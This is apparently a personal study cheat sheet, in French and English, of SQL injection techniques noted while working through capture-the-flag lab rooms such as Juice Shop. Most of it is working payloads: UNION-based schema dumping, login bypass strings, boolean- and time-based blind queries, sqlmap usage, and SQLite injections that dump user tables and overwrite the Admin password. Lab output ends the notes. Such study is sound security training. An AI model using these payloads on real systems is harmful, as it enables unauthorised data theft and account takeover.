 # SQL injection

## Room Burpsuite repeater :

In this room, the URL looked like http://10.10.169.81/about/2 and the last `2` was vulnerable

### Finding the vulnerability
`/about/2'` : l'apostrophe est souvent une bonne solution pour trouver une faille  
L'erreur qui aparait nous montre la vulnerabilité
### Use the vuln
```/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"```

### Display data 
Pour afficher tous les elements dans 1 seule fois  
/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"

### Find the flag
/about/0 UNION ALL SELECT flag,null,null,null,null FROM people WHERE id = 1


## Room Juice shop

Injection SQL via Login
On peut utiliser Burp ou directement écrire dans 'email'

Si on ne connait pas d'adresse mail
	On force le login en tant qu'utilisateur 0
	
	' or 1=1-- à la place de l'adresse mail
	
	' -> est pour fermer la string
	or -> ça ou ça
	1=1 -> toujours vrai
	-- -> pour commenter la suite de la requête

Si on connait une adresse mail
	adresse@mail.com' --
	/!\ le ' doit être collé à la fin sinon -> erreur
	-- toujours pour commenter la suite

La présence ou non de mot de passe n'influe QUE sur le bouton 'continuer' qui peut être désactivé si aucun mot de passe n'est rentré.


## SQLi ROOM THM :
	How to look for SQLi :
		- Search for IN-BAND SQLi i.e. we can see the output
		- Search for ERROR-BASED swaping stuff as request parameters to ' or smth
		- Search for a UNION-BASED SQLi as <normal parameter> UNION 1
		
# ERROR BASED SQLi
	1st) Look for a proof of concept such as errors displayed on the screen
	2nd) Add parameters after the union as much as needed to avoid error 
		and change the very first param so it return nothing
	3rd) Dump database name by replacing a parameter by database()
	4th) Dump table names by replacing a parameter by :
		group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db_name'
		--group_concat(..)		concat values separated by comas
		--table_name			column in information.schema
		--information_schema		db that is always present contains informations
	5ft) Dump column names of the database by replacing a parameter by :
		group_concat(column_name) FROM information_schema.columns WHERE table_name = 'db_name'
		--column_name 			column that contains database attribute names
	6th) Now that we have the structure, we can request by replacing the same parameter by :
		group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
	
	BLIND-BASED SQLi : Authentication bypass
		1st) Put ' or 1=1; -- in the username form, 
			maybe a password will need to be typed just to pass the form presets
		The first ' close the string, the or 1=1 return True, ';' is used to specify the end
		ans -- to delete following compares
		
# BOOLEAN BASED BLIND SQLi
		In this case, we expect a boolean that says if the request is correct or not
		(True/False; 0/1 ; yes/no ; ...)
		On doit donc chercher d'abord un booleen qui nous est retournée si la requête est valide.
		Le principe consiste à requêter des à valider la sortie si le boolean = True
		L'opérateur LIKE '%' est le concept même de cette faille
		
	PROOF OF CONCEPT 
	FIND NUMBER OF ATTRIBUTES 
		admin123' UNION SELECT 1;-- 		return false
		admin123' UNION SELECT 1,3;-- 		return false
		admin123' UNION SELECT 1,2,3;-- 	return true
		(note : admin123 is'nt in the db)
	FIND DATABASE NAME
		admin123' UNION SELECT 1,2,3 where database() like '%';-- 	return true
		admin123' UNION SELECT 1,2,3 where database() like 'a%';--	return false
		admin123' UNION SELECT 1,2,3 where database() like 's%';--	return true so 's' is the first letter
		...
		admin123' UNION SELECT 1,2,3 where database() = 'sqli_three';--	return true so db name is sqli_three
	FIND TABLES NAMES 
		admin123' UNION SELECT 1,2,3 FROM information_schema.tables 
			WHERE table_schema = 'sqli_three' and table_name like '%';-- same process
		(note : it may be more than one table)
	FIND COLUMN NAMES
		admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS 
			WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%'; --same process
		(note : it may be more than one column)
	FIND ATTRIBUTE VALUES
		admin123' UNION SELECT 1,2,3 from users where username like 'a%
	
# TIME BASED SQLi 
(this is when nothing show the request being wrong or right so if the request come back after a given time, it worked)
	
1. Try ```admin123' UNION SELECT SLEEP(5);-- -```  	
Since this not worked
2. Add attributs until it works
```admin123' UNION SELECT SLEEP(5),2;--```		
3. Start the boolean based process 
	
		
	
## TOOLS :
sqlmap
need to capture a request with burp and put it in request.txt
sqlmap -r request.txt --dbms-mysql --dump


## IDENTIFY VERSIONS :
- MySQL and MSSQL
',nickName=@@version,email='
- For Oracle
',nickName=(SELECT banner FROM $version),email='
- For SQLite
',nickName=sqlite_version(),email='

## MASTER DATABASE
- MySQL and MSSQL
information_schema.tables 	table_schema		table_name
- For Oracle
?
- For SQLite
sqlite_master						tbl_name	sql


nickName=',nickName=(SELECT GROUP_CONCAT(*) FROM sqlite_master),email='&email=email&password='
nickName=',nickName=SELECT * FROM sqlite_master,email='&email=email&password=
nickName=',nickName=sqlite_version(),email='&email=email&password=
DUMP TABLE NAMES
nickName=',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master),email='&email=email&password=
DUMP COLUMN NAMES
nickName=',nickName=(SELECT group_concat(sql) FROM sqlite_master WHERE name='usertable'),email='&email=email&password=
DUMP DATA
nickName=',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") FROM usertable),email='&email=email&password=
DUMP DATA2
nickName=',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") FROM secrets),email='&email=email&password=
nickName=Admin&email=&password=5dfac5ccc654a3474438474b85a4cfcc21c5239af327dffa02a0a27fbc7ca2a4' WHERE name='Admin';-- -
nickName=Admin', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -

SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable

6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
5dfac5ccc654a3474438474b85a4cfcc21c5239af327dffa02a0a27fbc7ca2a4
 	10
Salary 	R250
Passport Number 	8605255014084
Nick Name 	CREATE TABLE `usertable` ( 
`UID` integer primary key, 
`name` varchar(30) NOT NULL, 
`profileID` varchar(20) DEFAULT NULL, 
`salary` int(9) DEFAULT NULL, 
`passportNr` varchar(20) DEFAULT NULL, 
`email` varchar(300) DEFAULT NULL, 
`nickName` varchar(300) DEFAULT NULL, 
`password` varchar(300) DEFAULT NULL )



